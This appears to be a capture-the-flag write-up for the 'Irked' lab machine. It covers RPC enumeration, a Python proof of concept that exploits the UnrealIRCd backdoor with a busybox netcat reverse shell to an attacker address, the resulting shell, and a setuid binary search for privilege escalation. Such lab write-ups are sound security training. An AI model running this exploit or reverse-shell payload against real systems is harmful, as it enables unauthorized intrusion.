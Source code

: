```console
$ rpcinfo irked.htb
   program version netid     address                service    owner
    100000    4    tcp6      ::.0.111               portmapper superuser
    100000    3    tcp6      ::.0.111               portmapper superuser
    100000    4    udp6      ::.0.111               portmapper superuser
    100000    3    udp6      ::.0.111               portmapper superuser
    100000    4    tcp       0.0.0.0.0.111          portmapper superuser
    100000    3    tcp       0.0.0.0.0.111          portmapper superuser
    100000    2    tcp       0.0.0.0.0.111          portmapper superuser
    100000    4    udp       0.0.0.0.0.111          portmapper superuser
    100000    3    udp       0.0.0.0.0.111          portmapper superuser
    100000    2    udp       0.0.0.0.0.111          portmapper superuser
    100000    4    local     /run/rpcbind.sock      portmapper superuser
    100000    3    local     /run/rpcbind.sock      portmapper superuser
    100024    1    udp       0.0.0.0.174.65         status     107
    100024    1    tcp       0.0.0.0.210.216        status     107
    100024    1    udp6      ::.132.3               status     107
    100024    1    tcp6      ::.212.197             status     107
```

## RCE

Here is how I achieved remote code execution on the target system.

Here's a modified version of [this PoC](https://github.com/geek-repo/UnrealIRCd-3.2.8.1):

```python
import socket
ip="10.10.10.117"
port=6697
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
a=s.recv(1024)
a=b"AB;busybox nc 10.10.14.10 443 -e /bin/bash"
s.sendall(a)
```

```console
connect to [10.10.14.10] from (UNKNOWN) [10.10.10.117] 38035
id
uid=1001(ircd) gid=1001(ircd) groups=1001(ircd)
```

## PE

Here's how I was able to escalate privileges for full control of the system.

First, I'll check for setuid executables:

```console
ircd@irked:~$ find / -perm -4000 2>/dev/null
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/openssh/ssh-keysign
/usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
/usr/sbin/exim4
/usr/sbin/pppd
/usr/bin/chsh
/usr/bin/procmail
/usr/bin/gpasswd
/usr/bin/newgrp
/usr/bin/at
/usr/bin/pkexec
/usr/bin/X
/usr/bin/passwd
```